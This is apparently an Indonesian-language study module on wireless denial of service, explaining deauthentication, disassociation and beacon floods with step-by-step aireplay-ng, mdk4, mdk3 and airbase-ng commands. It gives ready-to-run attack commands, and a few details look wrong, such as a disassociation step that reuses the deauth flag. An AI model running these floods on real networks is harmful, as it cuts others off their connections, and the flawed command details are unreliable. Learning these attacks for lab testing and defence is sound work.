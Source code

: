 # Modul 20: Denial of Service (DoS)

## Deauthentication/Disassociation Flood

- **Definisi**: Serangan DoS yang mengirimkan paket deauthentication atau disassociation palsu ke klien atau Access Point untuk memutuskan koneksi wireless secara paksa dan berulang kali.
- **Perbedaan**:
  - **Deauthentication**: Management frame yang memberitahu klien untuk disconnect dari AP, seolah-olah dikirim dari AP (spoofed).
  - **Disassociation**: Management frame yang memutus asosiasi antara klien dan AP, mirip dengan deauth tetapi pada layer berbeda.
- **Cara Kerja**:
  1. Attacker mengirim deauth frame dengan source MAC address AP target ke broadcast atau klien spesifik.
  2. Klien menerima deauth frame legitimate (karena management frame tidak terenkripsi di WPA2).
  3. Klien disconnect dan mencoba reconnect, tetapi attacker terus mengirim deauth flood.
  4. AP atau klien tidak dapat maintain koneksi stabil, menyebabkan DoS.
- **Langkah-langkah dengan aireplay-ng**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Identifikasi target AP: `sudo airodump-ng wlan0mon` (catat BSSID dan Channel).
  3. Deauth semua klien: `sudo aireplay-ng -0 0 -a [AP_BSSID] wlan0mon`.
     - `-0 0`: Deauth flood (0 = unlimited), `-a`: Target AP BSSID.
  4. Deauth klien spesifik: `sudo aireplay-ng -0 0 -a [AP_BSSID] -c [CLIENT_MAC] wlan0mon`.
     - `-c`: Target client MAC address.
  5. Disassociation flood: `sudo aireplay-ng -0 0 -a [AP_BSSID] --deauth wlan0mon` (gunakan flag `--deauth` untuk disassociation).
- **Langkah-langkah dengan mdk4**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Deauth attack: `sudo mdk4 wlan0mon d -c [CHANNEL] -b [AP_BSSID]`.
     - `d`: Deauthentication mode, `-c`: Channel target, `-b`: Blacklist AP BSSID.
  3. Deauth semua AP di channel: `sudo mdk4 wlan0mon d -c [CHANNEL]`.
- **Kelebihan**: Sangat efektif untuk DoS wireless, sederhana dan cepat, dapat target spesifik atau broadcast, memaksa handshake capture.
- **Kekurangan**: Mudah terdeteksi oleh WIDS/WIPS, tidak efektif pada WPA3 (management frame protection), ilegal di banyak negara.
- **Contoh Penggunaan**: Deauth flood ke AP "TestLab" di lab untuk simulasi DoS dan testing resilience jaringan wireless.

## Beacon Flooding

- **Definisi**: Serangan DoS yang membanjiri spektrum wireless dengan beacon frame palsu dari ratusan atau ribuan fake Access Point untuk overload wireless scanner dan menyembunyikan AP legitimate.
- **Cara Kerja**:
  1. Attacker mengirim beacon frame dengan SSID random atau customized secara massal.
  2. Scanner wireless (contoh: smartphone WiFi list) dibanjiri dengan fake AP.
  3. AP legitimate tersembunyi di antara noise, menyulitkan klien untuk connect.
  4. Device dengan auto-connect feature mencoba connect ke fake AP, menghabiskan resource.
- **Langkah-langkah dengan mdk4**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Beacon flood dengan SSID random: `sudo mdk4 wlan0mon b -c [CHANNEL]`.
     - `b`: Beacon flood mode, `-c`: Target channel.
  3. Beacon flood dengan SSID dari file: `sudo mdk4 wlan0mon b -c [CHANNEL] -f ssid_list.txt`.
     - `-f`: File berisi list SSID (satu SSID per line).
  4. Beacon flood mode full spectrum: `sudo mdk4 wlan0mon b` (tanpa `-c`, flood semua channel).
- **Langkah-langkah dengan mdk3**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Beacon flood: `sudo mdk3 wlan0mon b -c [CHANNEL] -s 500`.
     - `b`: Beacon flood mode, `-s 500`: Speed 500 beacon/second.
  3. Custom SSID: `sudo mdk3 wlan0mon b -f ssid_list.txt -c [CHANNEL]`.
- **Langkah-langkah dengan airbase-ng**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Beacon flood: `sudo airbase-ng -c [CHANNEL] -e "FakeAP" wlan0mon`.